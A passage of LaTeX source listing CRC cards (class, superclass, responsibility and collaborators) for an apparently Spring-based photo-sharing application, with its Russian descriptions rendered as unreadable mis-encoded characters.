  ����� ������  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� TagDto}\label{crc-table-12}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{TagDto} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  DTO - ⥣  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorTreemapNode}\label{crc-table-13}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorTreemapNode} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  DTO - 㧥� Treemap  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserDto}\label{crc-table-14}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{UserDto} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{3}{=}{ DTO - ���짮��⥫� } 
& \bdot PasswordMatches \\
& \bdot ValidEmail \\
& \bdot ValidPassword \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorCluster}\label{crc-table-15}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorCluster} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  DTO - 梥⮢�� ������  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� GenericResponse}\label{crc-table-16}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{GenericResponse} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ��騩 �⢥�  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoController}\label{crc-table-17}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����஫��� ����㯠 � �⮣���  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorsController}\label{crc-table-18}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorsController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{4}{=}{ ����஫��� 梥⮢ } 
& \bdot PhotoGroupColorArea \\
& \bdot ColorTreemapNodeMapper \\
& \bdot ColorsService \\
& \bdot ColorTreemapNode \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� AuthController}\label{crc-table-19}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{AuthController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����஫���  ��⥭�䨪�樨  & \bdot ColorTreemapNode \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� RegistrationController}\label{crc-table-20}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{RegistrationController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{12}{=}{ ����஫��� ॣ����樨 } 
& \bdot UserAccount \\
& \bdot VerificationToken \\
& \bdot OnRegistrationCompleteEvent \\
& \bdot IUserService \\
& \bdot ISecurityUserService \\
& \bdot PasswordDto \\
& \bdot UserDto \\
& \bdot InvalidOldPasswordException \\
& \bdot GenericResponse \\
& \bdot UserService \\
& \bdot PasswordResetToken \\
& \bdot Privilege \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� TagsController}\label{crc-table-21}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{TagsController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{5}{=}{ ����஫��� ����㯠 � ⥣�� } 
& \bdot ColorTreemapNodeMapper \\
& \bdot PhotoGroupColorArea \\
& \bdot TagsService \\
& \bdot ColorTreemapNode \\
& \bdot TagDto \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� FileController}\label{crc-table-22}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{FileController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{3}{=}{ ����஫��� ����㯠 � 䠩��� } 
& \bdot UserDetailService \\
& \bdot GenericResponse \\
& \bdot FileStorageService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserController}\label{crc-table-23}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{UserController} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����஫��� ���짮��⥫��  & \bdot FileStorageService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ReCaptchaUnavailableException}\label{crc-table-24}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{ReCaptchaUnavailableException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ������㯭�  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserAlreadyExistException}\label{crc-table-25}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{UserAlreadyExistException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���짮��⥫� 㦥 �������  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserNotFoundException}\label{crc-table-26}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{UserNotFoundException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���짮��⥫� �� ������  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� InvalidOldPasswordException}\label{crc-table-27}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{InvalidOldPasswordException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �᪫�祭�� ��������� �� ����୮ ��������� ��஬ ��஫�  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� RestResponseEntityExceptionHandler}\label{crc-table-28}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ResponseEntityExceptionHandler \\
\multicolumn{2}{|c|}{RestResponseEntityExceptionHandler} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{6}{=}{ REST ��ࠡ��稪 �⢥⮢ } 
& \bdot GenericResponse \\
& \bdot InvalidOldPasswordException \\
& \bdot ReCaptchaInvalidException \\
& \bdot UserNotFoundException \\
& \bdot UserAlreadyExistException \\
& \bdot ReCaptchaUnavailableException \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ReCaptchaInvalidException}\label{crc-table-29}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{ReCaptchaInvalidException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �᪫�祭�� ��������� �� ����୮ ��������� �����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorTreemapNodeMapper}\label{crc-table-30}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorTreemapNodeMapper} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{  ������ ��魮�� �� ⨯� PhotoGroupColorArea � 㧫� ColorTreemap } 
& \bdot PhotoGroupColorArea \\
& \bdot ColorTreemapNode \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� TagRepository}\label{crc-table-31}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{TagRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ⥣���  & \bdot ColorTreemapNode \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupRepository}\label{crc-table-32}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PhotoGroupRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ��㯯��� �⮣�䨩  & \bdot ColorTreemapNode \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupColorAreaRepository}\label{crc-table-33}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PhotoGroupColorAreaRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������਩ � 梥⮢묨 �����ࠬ� } 
& \bdot PhotoGroup \\
& \bdot PhotoGroupColorArea \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupMetadataRepository}\label{crc-table-34}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PhotoGroupMetadataRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ��⠤���묨 �⮣�䨩  & \bdot PhotoGroupColorArea \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupTagRepository}\label{crc-table-35}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PhotoGroupTagRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������਩ � ⥣��� ��㯯� �⮣�䨩 } 
& \bdot PhotoGroup \\
& \bdot PhotoGroupTag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� WorldNetClassRepository}\label{crc-table-36}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{WorldNetClassRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ����ᠬ� WorldNet  & \bdot PhotoGroupTag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoSingleRepository}\label{crc-table-37}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PhotoSingleRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{3}{=}{  �������਩ � �⮣��ﬨ } 
& \bdot PhotoGroup \\
& \bdot PhotoSingle \\
& \bdot PhotoType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� RoleRepository}\label{crc-table-38}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{RoleRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ஫ﬨ ���짮��⥫��  & \bdot PhotoType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserRepository}\label{crc-table-39}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{UserRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � ���짮��⥫ﬨ  & \bdot PhotoType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordResetTokenRepository}\label{crc-table-40}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PasswordResetTokenRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������਩ � ⮪����� ��� ����⠭������� ��஫�� } 
& \bdot PasswordResetToken \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� VerificationTokenRepository}\label{crc-table-41}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{VerificationTokenRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������਩ � ⮪����� ��� ���䨪�樨 } 
& \bdot UserAccount \\
& \bdot VerificationToken \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PrivilegeRepository}\label{crc-table-42}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface & JpaRepository \\
\multicolumn{2}{|c|}{PrivilegeRepository} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������਩ � �ࠢ��� ���짮��⥫��  & \bdot VerificationToken \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Post}\label{crc-table-43}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Post} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���� } 
& \bdot UserAccount \\
& \bdot PrivacyType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoType}\label{crc-table-44}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline enum &  \\
\multicolumn{2}{|c|}{PhotoType} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ��� �⮮��䨨  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordResetToken}\label{crc-table-45}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PasswordResetToken} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ��� ��� ��஫�  & \bdot PrivacyType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoSingle}\label{crc-table-46}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoSingle} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��⮣��� } 
& \bdot PhotoGroup \\
& \bdot PhotoType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroup}\label{crc-table-47}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroup} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��㯯� �⮣�䨩 } 
& \bdot UserAccount \\
& \bdot PrivacyType \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupMetadata}\label{crc-table-48}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupMetadata} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��⠤���� � �⮣�䨨 } 
& \bdot PhotoGroup \\
& \bdot Camera \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PrivacyType}\label{crc-table-49}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline enum &  \\
\multicolumn{2}{|c|}{PrivacyType} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ��� access ����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Tag}\label{crc-table-50}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Tag} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���  & \bdot Camera \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Privilege}\label{crc-table-51}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Privilege} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �ࠢ� ���짮��⥫�  & \bdot Camera \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PostUserLike}\label{crc-table-52}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PostUserLike} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���� ����� } 
& \bdot Post \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupColorArea}\label{crc-table-53}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupColorArea} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���⮢�� ������  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupUserAccess}\label{crc-table-54}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupUserAccess} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ������ � access ���� } 
& \bdot PhotoGroup \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupPost}\label{crc-table-55}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupPost} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���� ��㯯� �⮣�䨩-���� } 
& \bdot PhotoGroup \\
& \bdot Post \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupTag}\label{crc-table-56}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupTag} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��� �⮣�䨨 } 
& \bdot PhotoGroup \\
& \bdot Tag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PostTag}\label{crc-table-57}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PostTag} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��� ���� } 
& \bdot Post \\
& \bdot Tag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� VerificationToken}\label{crc-table-58}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{VerificationToken} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ��� ���䨪�樨  & \bdot Tag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� WorldNetClass}\label{crc-table-59}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{WorldNetClass} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� WorldNet  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Comment}\label{crc-table-60}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Comment} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������਩ ���짮��⥫� } 
& \bdot UserAccount \\
& \bdot PhotoGroup \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserAuthCookie}\label{crc-table-61}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{UserAuthCookie} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �㪨 ���짮��⥫�  & \bdot PhotoGroup \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Role}\label{crc-table-62}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Role} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���� ���짮��⥫� } 
& \bdot UserAccount \\
& \bdot Privilege \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Camera}\label{crc-table-63}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Camera} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ��⮪����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoGroupUserLike}\label{crc-table-64}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoGroupUserLike} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���� �⮣�䨨 } 
& \bdot PhotoGroup \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserAccount}\label{crc-table-65}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{UserAccount} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ������ ���짮��⥫�  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� IUserService}\label{crc-table-66}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface &  \\
\multicolumn{2}{|c|}{IUserService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{5}{=}{ ����䥩� ���짮��⥫�᪮�� �ࢨ� } 
& \bdot PasswordResetToken \\
& \bdot UserAccount \\
& \bdot VerificationToken \\
& \bdot UserDto \\
& \bdot UserAlreadyExistException \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ImageColorClusteriserService}\label{crc-table-67}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ImageColorClusteriserService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��ࢨ� �����ਧ�樨 } 
& \bdot ColorCluster \\
& \bdot PixelPoint \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� FileStorageService}\label{crc-table-68}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{FileStorageService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{10}{=}{ ������� �ࢨ� } 
& \bdot FileStorageException \\
& \bdot MyFileNotFoundException \\
& \bdot PhotoGroup \\
& \bdot PhotoSingle \\
& \bdot PhotoType \\
& \bdot UserAccount \\
& \bdot FileStorageProperties \\
& \bdot PhotoGroupRepository \\
& \bdot PhotoSingleRepository \\
& \bdot RandomString \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserService}\label{crc-table-69}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & IUserService \\
\multicolumn{2}{|c|}{UserService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{9}{=}{ ��ࢨ� ���짮��⥫�� } 
& \bdot PasswordResetTokenRepository \\
& \bdot RoleRepository \\
& \bdot UserRepository \\
& \bdot VerificationTokenRepository \\
& \bdot PasswordResetToken \\
& \bdot UserAccount \\
& \bdot VerificationToken \\
& \bdot UserDto \\
& \bdot UserAlreadyExistException \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� TagsService}\label{crc-table-70}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{TagsService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{7}{=}{ ��ࢨ� ⥣�� } 
& \bdot PhotoGroupRepository \\
& \bdot PhotoGroupTagRepository \\
& \bdot TagRepository \\
& \bdot PhotoGroup \\
& \bdot PhotoGroupTag \\
& \bdot TagDto \\
& \bdot Tag \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ColorsService}\label{crc-table-71}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ColorsService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{4}{=}{ ��ࢨ� ��� ࠡ��� � 梥⠬� � �����ࠬ� } 
& \bdot PhotoGroup \\
& \bdot PhotoGroupColorArea \\
& \bdot PhotoGroupColorAreaRepository \\
& \bdot PhotoGroupRepository \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� MetadataService}\label{crc-table-72}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{MetadataService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ��ࢨ� ��⠤����� } 
& \bdot PhotoGroupMetadata \\
& \bdot PhotoGroupMetadataRepository \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PhotoProcessorService}\label{crc-table-73}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{PhotoProcessorService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{20}{=}{ ��ࢨ� ��ࠡ�⪨ �⮣�䨩 (ᮤ�ন� �� ������� �� ��ࠡ�⪥) } 
& \bdot PhotoGroupTagRepository \\
& \bdot TagRepository \\
& \bdot WorldNetClassRepository \\
& \bdot PhotoGroupTag \\
& \bdot Tag \\
& \bdot WorldNetClass \\
& \bdot ImageClassifier \\
& \bdot Label \\
& \bdot PhotoGroupColorAreaRepository \\
& \bdot PhotoGroupMetadataRepository \\
& \bdot PhotoGroupRepository \\
& \bdot PhotoSingleRepository \\
& \bdot PhotoGroup \\
& \bdot PhotoGroupColorArea \\
& \bdot PhotoSingle \\
& \bdot PhotoType \\
& \bdot ColorCluster \\
& \bdot ColorUtils \\
& \bdot FileStorageService \\
& \bdot ImageColorClusteriserService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� MySimpleUrlAuthenticationSuccessHandler}\label{crc-table-74}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & AuthenticationSuccessHandler \\
\multicolumn{2}{|c|}{MySimpleUrlAuthenticationSuccessHandler} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ��ࠡ��稪 ��⥭�䨪�樨  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ISecurityUserService}\label{crc-table-75}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface &  \\
\multicolumn{2}{|c|}{ISecurityUserService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����䥩� �ࢨ� ������᭮�� ���짮��⥫��  & \bdot ImageColorClusteriserService \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� SessionFilter}\label{crc-table-76}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & Filter \\
\multicolumn{2}{|c|}{SessionFilter} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ������ ��ᨩ  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserSecurityService}\label{crc-table-77}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ISecurityUserService \\
\multicolumn{2}{|c|}{UserSecurityService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{3}{=}{ ��ࢨ� ������᭮�� ���짮��⥫�� } 
& \bdot PasswordResetTokenRepository \\
& \bdot PasswordResetToken \\
& \bdot UserAccount \\
\hline 
\end{tabular}
